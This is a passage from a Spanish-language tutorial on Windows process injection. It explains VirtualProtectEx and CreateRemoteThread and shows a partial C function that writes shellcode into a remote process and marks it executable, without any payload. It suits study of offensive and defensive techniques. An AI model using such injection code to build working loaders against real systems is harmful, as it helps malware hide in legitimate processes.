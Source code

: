 El último parámetro es un puntero a una variable que va a recibir el tipo de protección previo al cambio.

![VirtualProtectEx](/Media/Images/Process-Injection-Shellcode/PIS-VirtualProtectEx.png)

## **Ejecutar el shellcode**

Se logró conseguir un handle al proceso remoto, se le asignó un buffer, se escribió el shellcode en el buffer, y se le otorgó los permisos de ejecución. Solo falta ejecutarlo, por medio de la creción de un nuevo hilo.

### CreateRemoteThread

Permite crear un hilo que se va a ejecutar en la memoria virtual del proceso remoto.

```c
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```
Para este caso solo se va a necesitar pasar dos argumentos, el handle del proceso (**`hProcess`**), y el buffer (**`lpStartAddress`**). Para el resto de parámetros se puede colocar NULL.

![CreateRemoteThread](/Media/Images/Process-Injection-Shellcode/PIS-CreateRemoteThread.png)

> También se puede crear una función para la inyección que constará de tres parámetros. El primero (**`hProcess`**) es el HANDLE al proceso remoto, el segundo (**`pShellcode`**) es un puntero al shellcode, y el tercero (**`sShellcodeSize`**) es el tamaño del shellcode.
{: .prompt-info}

## **Función InjectRemoteProcess**
```c
BOOL InjectRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sShellcodeSize){

	PVOID pShellcodeAddress = NULL;
	DWORD dwOldProtection = NULL;

	pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pShellcodeAddress == NULL){
		return FALSE;
	}

	if (!WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sShellcodeSize, NULL)) {
		return FALSE;
	}

	memset(pShellcode, '\0', sShellcodeSize);

	if (!VirtualProtectEx(hProcess, pShellcodeAddress, sShellcodeSize, PAGE_EXECUTE_READ, &dwOldProtection)) {
		return FALSE;
	}

```
